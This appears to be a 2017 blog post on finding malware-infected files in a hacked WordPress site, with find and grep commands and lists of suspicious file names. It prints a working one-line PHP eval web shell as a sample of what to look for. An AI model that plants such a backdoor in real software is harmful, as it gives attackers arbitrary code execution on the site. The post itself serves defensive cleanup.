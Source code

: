 ```yaml
---
layout: post
title: Finding infected files in WordPress
ctime: 2017-07-05

---
```


The best thing to do is to clean your database, delete your site and re-install it.

- Keep things updated
- Don't install themes from _warez_ sites, duh. If you don't pay for it, you'll end up paying for it, only worse..
- Disable any files that you find suspicious. This can be done simply by add a `.OFF` at the end of the file name, after the extension. For example `favicon_de19d8.ico.OFF`. This will stop the execution of that particular file
- Find that breach! No use in cleaning up the site if the breach isn't fixed, the hacker will just breach again and re-inject the malicious code

#### uploads
The `uploads` directory is *writable*. Plus it usually has thousands of files, you rarely check them. It is a great place to hide malicious code..

```bash
find wp-content/uploads -name "*.php" -print
```

#### .ico files

If you have files like these, chances are they are infected. 

```
./wp-admin/network/favicon_de19d8.ico
./wp-content/wptouch-data/extensions/favicon_43e3fd.ico
```

If you open them in a text editor, you'll find code inside. Delete these files.

#### .eval()

Code that looks like this is basically a backdoor that allows any kind of code to be executed. It's a _Code Inejction Attack_

```php
<?php @eval($_POST['@01']);?>
```
Any file that has the `.eval()` code is malicious. It **let's the hacker run any kind of code, and add, update and delete any kind of data**. `.eval()` is dangerous, insecure, and highly discouraged. Some plugins might still use it, you should not use those plugins.

Find files having `eval()` code with

```bash
egrep -lri '@eval' .
```

```
./public_html/wp-content/themes/business-one-page/404.php
```

#### files with weird, non-sensical names

For example:

```
./ceshi.html
./ceshi.php
./d6c0cf.php
./db9d04.php
./eaiubnv2.php
./wp-admin/network/favicon_de19d8.ico
./wp-admin/user/kqqplowi.php
./wp-content/uploads/2017/04/wkvlkxcf.php
./wp-content/themes/signature-wp/assets/djhdlqne.php
./wp-content/hk9eJ/lyty.php
./wp-content/wptouch-data/extensions/favicon_43e3fd.ico
./wp-content/plugins/js_composer/vendor/composer/css/c82987
```

Links
---
- [How to Find a Backdoor in a Hacked WordPress Site and Fix It](http://www.wpbeginner.com/wp-tutorials/how-to-find-a-backdoor-in-a-hacked-wordpress-site-and-fix-it/)